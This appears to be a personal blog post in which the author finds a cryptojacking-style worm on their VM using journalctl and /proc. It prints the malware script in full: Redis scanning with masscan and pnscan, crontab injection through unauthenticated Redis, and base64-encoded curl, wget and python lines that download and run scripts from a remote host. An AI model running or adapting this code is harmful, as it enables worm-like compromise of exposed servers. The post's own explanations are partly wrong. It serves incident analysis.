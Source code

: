 ```yaml
---
title : A Journey into Unseen Threats on our VM
date : 2024-05-04T19:51:57.5757+05:30
tags : ['hacking']
---
```


As the sun set on a typical Saturday evening, I found myself engrossed in a blog titled "[Visualizing Malicious IP Addresses.](https://romeov.github.io/malicious_ip_addresses/malicious_ip_analysis.html)" The author shared clever ways to detect unauthorized attempts to access virtual machines via SSH, using commands like:

```sh
$ journalctl --since "-1d" -u sshd | grep "Failed password" | wc -l
$ journalctl --since "-1d" -u sshd | grep "Failed publickey" | wc -l
```

Curious, I decided to try these commands on our own VM. To my relief, the output was zero—no unauthorized login attempts. But my curiosity was piqued. I delved deeper into journalctl, discovering a command to display all Systemd logs with process IDs:

```sh
journalctl -f -o verbose
```

Upon executing the query on our VM, I encountered an intriguing error that immediately captured my attention.

```
 MESSAGE=/etc/.httpd/.../httpd: line 43: pnscan: command not found
```

"Pnscan?" I muttered to myself, furrowing my brows. A quick Google search revealed that "pnscan" is a tool for scanning network ports—a tool we certainly hadn't authorized on our VM.

Determined to unravel this mystery, I extracted the process ID from the journalctl logs and ventured into the depths of the `/proc` directory. Inside the PID folder, I hoped to glean more insights into this rogue process.

My first stop was the `cmdline` file, where I discovered the command that initiated the process 

```
 `/bin/bash/etc/.httpd/.../httpd`
```

It seemed innocuous enough—a command to run the Apache server. But something didn't add up. Next, I turned my attention to the `fd` folder, hoping to find clues in the standard output and standard error streams. To my surprise, there was nothing there—except for a mysterious file named `255`.

I cat the content of of the file and i got the below content

```sh
#!/bin/bash
setenforce 0 2>/dev/null
ulimit -u 50000
sleep 1
iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/null
iptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/null
sleep 1
      
rm -rf .dat .shard .ranges .lan 2>/dev/null
sleep 1
echo 'config set dbfilename "backup.db"' > .dat
echo 'save' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/"' >> .dat
echo 'config set dbfilename "root"' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'save' >> .dat
echo 'config set dir "/tmp"' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/crontabs"' >> .dat
echo 'save' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'config set dir "/etc/cron.d/"' >> .dat
echo 'config set dbfilename "zzh"' >> .dat
echo 'save' >> .dat
echo 'config set dir "/etc/"' >> .dat
echo 'config set dbfilename "crontab"' >> .dat
echo 'save' >> .dat
sleep 1
pnx=pnscan
[ -x /usr/local/bin/pnscan ] && pnx=/usr/local/bin/pnscan
[ -x /usr/bin/pnscan ] && pnx=/usr/bin/pnscan
while true
do
for x in $( echo -e "47\n39\n8\n121\n106\n120\n123\n65\n3\n101\n139\n99\n63\n81\n44\n18\n119\n100\n42\n49\n118\n54\n1\n50\n114\n182\n52\n13\n34\n112\n115\n111\n116\n16\n35\n117\n124\n59\n36\n103\n82\n175\n122\n129\n45\n152\n159\n113\n15\n61\n180\n172\n157\n60\n218\n176\n58\n204\n140\n184\n150\n193\n223\n192\n75\n46\n188\n183\n222\n14\n104\n27\n221\n211\n132\n107\n43\n212\n148\n110\n62\n202\n95\n220\n154\n23\n149\n125\n210\n203\n185\n171\n146\n109\n94\n219\n134" | sort -R ); do
for y in $( seq 0 255 | sort -R ); do
$pnx -t512 -R '6f 73 3a 4c 69 6e 75 78' -W '2a 31 0d 0a 24 34 0d 0a 69 6e 66 6f 0d 0a' $x.$y.0.0/16 6379 > .r.$x.$y.o
awk '/Linux/ {print $1, $3}' .r.$x.$y.o > .r.$x.$y.l
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw &
done < .r.$x.$y.l
done
done
done
sleep 1
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .shard
sleep 1
masscan --max-rate 10000 -p6379 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .ranges
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .ranges
sleep 1
ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's/\/\([0-9]\{2\}\)/\/16/g' > .inet
sleep 1
masscan --max-rate 10000 -p6379 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lan
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .lan
sleep 60
rm -rf .dat .shard .ranges .lan 2>/dev/null

```


The script appears to conduct a Redis database backup, despite our VM not utilizing Redis. Of particular interest is the line:

```bash
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
```

1. **masscan**: Performs a network scan.
   - `--max-rate 10000`: Limits packet sending to 10,000 per second.
   - `-p6379`: Targets port 6379, commonly associated with Redis.
   - `--shard $( seq 1 22000 | sort -R | head -n1 )/22000`: Divides the scan into shards, choosing a random shard from 1 to 22000.
   - `--exclude 255.255.255.255 0.0.0.0/0`: Excludes specific IP ranges from the scan.
   - `2>/dev/null`: Suppresses error messages.
   
2. **`| awk '{print $6, substr($4, 1, length($4)-4)}'`**:
   - Processes `masscan` output to extract status and IP/port information.
   
3. **`| sort | uniq > .shard`**:
   - Sorts and removes duplicates from the extracted data, saving it to a file named `.shard`.

In summary, the script attempts to scan and connect to Redis servers across different networks, possibly with intentions to execute commands outlined in the `.dat` file, which could be malicious. Furthermore, it tries to disable SELinux and adjust user limits, suggesting unauthorized access and system modification. This underscores the importance of vigilance in monitoring and securing systems against potential threats.

the content of .dat file was 

```sh
config set dbfilename "backup.db"
save
flushall
config set dir "/var/spool/cron/"
config set dbfilename "root"
set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
save
config set dir "/tmp"
flushall
config set dir "/var/spool/cron/crontabs"
save
set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
config set dir "/etc/cron.d/"
config set dbfilename "zzh"
save
config set dir "/etc/"
config set dbfilename "crontab"
save
```

This script setup cron job to excute the script from remote url `http://s.na-cs.com/b2f628/b.sh`encoded in base64 format (`echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64`), I encountered an unexpected roadblock—the URL was inaccessible. Despite my efforts to uncover the script's intentions through the `/proc` file system, my investigation yielded no further insights.

Ultimately, I made the decision to delete the compromised VM and initiate the creation of a new one, ensuring the integrity of our system's security.
